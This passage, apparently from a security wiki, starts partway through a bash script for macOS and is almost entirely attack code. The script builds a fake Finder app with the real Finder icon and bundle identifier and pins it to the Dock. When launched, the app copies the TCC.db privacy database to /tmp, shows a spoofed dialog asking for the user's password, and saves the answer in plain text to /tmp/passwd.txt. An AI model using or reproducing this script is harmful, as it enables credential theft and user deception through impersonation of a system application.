 ```bash
"osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
"PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Finder needs to update some components. Enter your password:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"System:Library:CoreServices:Finder.app:Contents:Resources:Finder.icns\")' -e 'end tell' -e 'return userPassword'); "
"echo \$PASSWORD > /tmp/passwd.txt";
system(cmd);
return 0;
}
EOF

gcc /tmp/Finder.app/Contents/MacOS/Finder.c -o /tmp/Finder.app/Contents/MacOS/Finder
rm -rf /tmp/Finder.app/Contents/MacOS/Finder.c

chmod +x /tmp/Finder.app/Contents/MacOS/Finder

# Info.plist
cat << EOF > /tmp/Finder.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CFBundleExecutable</key>
<string>Finder</string>
<key>CFBundleIdentifier</key>
<string>com.apple.finder</string>
<key>CFBundleName</key>
<string>Finder</string>
<key>CFBundleVersion</key>
<string>1.0</string>
<key>CFBundleShortVersionString</key>
<string>1.0</string>
<key>CFBundleInfoDictionaryVersion</key>
<string>6.0</string>
<key>CFBundlePackageType</key>
<string>APPL</string>
<key>CFBundleIconFile</key>
<string>app</string>
</dict>
</plist>
EOF

# Copy icon from Finder
cp /System/Library/CoreServices/Finder.app/Contents/Resources/Finder.icns /tmp/Finder.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Finder.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
sleep 0.1
killall Dock
```
{{#endtab}}
{{#endtabs}}
